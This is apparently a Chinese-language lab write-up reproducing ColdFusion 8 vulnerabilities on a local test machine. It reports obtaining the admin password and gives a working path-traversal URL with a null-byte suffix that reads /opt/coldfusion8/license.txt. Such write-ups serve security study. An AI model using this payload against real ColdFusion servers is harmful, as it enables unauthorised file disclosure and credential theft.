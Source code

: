 ![image-20231111212240709](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20231111212240709.png)

可以看到，发包之后获得了后台管理员的密码。漏洞复现完成。

## 2、读取目标系统中的”/opt/coldfusion8/license.txt”文件

——下面这个是读取到了数据库的信息吗？

![屏幕截图 2023-11-11 214147](C:\Users\Lenovo\Pictures\Screenshots\屏幕截图 2023-11-11 214147.png)

正文：直接访问这个网址`http://192.168.232.131:5014/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../opt/coldfusion8/license.txt/%00en`

![屏幕截图 2023-11-12 150831](C:\Users\Lenovo\Pictures\Screenshots\屏幕截图 2023-11-12 150831.png)

可以看到已经读取license.txt文件内容。

